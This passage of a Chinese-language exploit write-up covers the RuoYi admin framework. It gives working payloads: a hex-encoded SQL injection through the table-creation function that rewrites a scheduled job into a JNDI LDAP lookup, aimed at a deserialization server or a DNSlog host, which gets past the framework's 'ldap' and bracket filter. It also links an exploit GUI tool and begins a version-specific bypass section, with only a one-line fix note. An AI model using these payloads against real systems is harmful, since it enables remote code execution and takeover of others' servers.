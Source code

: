   
目标字符串不允许'ldap(s)'调用且不能存在括号，因此我们使用SQL注入加十六进制编码来进行绕过修改  
https://www.bejson.com/convert/ox2str/  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/UkV8WB2qYAkb8xu0jnBTwkWNiat3NdvoicODhm1nFWseX7RpeoKo30Yj6TNBib1mnEOh6tSkBiaDWa3x8ADJbnZ2SQ/640?wx_fmt=png&from=appmsg "")  

```
0x6a617661782e6e616d696e672e496e697469616c436f6e746578742e6c6f6f6b757028276c6461703a2f2f7263793870732e646e736c6f672e636e2729

```


```
genTableServiceImpl.createTable('UPDATE sys_job SET invoke_target = 0x6a617661782e6e616d696e672e496e697469616c436f6e746578742e6c6f6f6b757028276c6461703a2f2f3132372e302e302e313a313338392f646573657269616c4a61636b736f6e2729 WHERE job_id = 1;')

```

  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/UkV8WB2qYAkb8xu0jnBTwkWNiat3NdvoicXZGoOib4r8HTSbdTBqsVsFeURpKHk8NhQHtYrn3627dODeZrA3Bib4Sg/640?wx_fmt=png&from=appmsg "")  
  
我们再来试试dnslog  

```
javax.naming.InitialContext.lookup('ldap://rcy8ps.dnslog.cn')

```

  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/UkV8WB2qYAkb8xu0jnBTwkWNiat3Ndvoicste74ZeR7yExbI8RMmWUPDuc6icf2e14bVHZuQ4V7ozISS6JeOw9Mfw/640?wx_fmt=png&from=appmsg "")  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/UkV8WB2qYAkb8xu0jnBTwkWNiat3NdvoicFIuPd85LNswgVl4ibPwuLJsOQl0qO84PBbGaibIOJrNhiasxkvK8egvXg/640?wx_fmt=png&from=appmsg "")  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/UkV8WB2qYAkb8xu0jnBTwkWNiat3NdvoicaQ5gzGHTlPI7qicZlZF7XBG7ghzpKq17o2995djjCXFm17ibRJwua3PA/640?wx_fmt=png&from=appmsg "")  
  
工具使用：  
https://github.com/charonlight/RuoYiExploitGUI  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/UkV8WB2qYAkb8xu0jnBTwkWNiat3NdvoicXsADiaZOMECMLATxSrficicCicw5p4Ma9zoNtdTK2g90KrlM3sL2tvVcTw/640?wx_fmt=png&from=appmsg "")  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/UkV8WB2qYAkb8xu0jnBTwkWNiat3Ndvoicv1ro5A9gRT9kE9LmYtsnccV19ZmkeXQMxHae6oia9SCxI1BqXHbuc7w/640?wx_fmt=png&from=appmsg "")  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/UkV8WB2qYAkb8xu0jnBTwkWNiat3NdvoicV3nrGMBmK6ibraFB4LOfXofgJQr55gok3I1hdk8Qnn3mMt7NpSbIMIw/640?wx_fmt=png&from=appmsg "")  
## 0x06 修复方式  
  
1、升级版本。  
## 0x07 bypass  
### 版本4.6.2<=Ruoyi<4.7.2  
  
这个版本采用了黑名单限制调用字符串  
- 定时任务屏蔽ldap远程调用  
  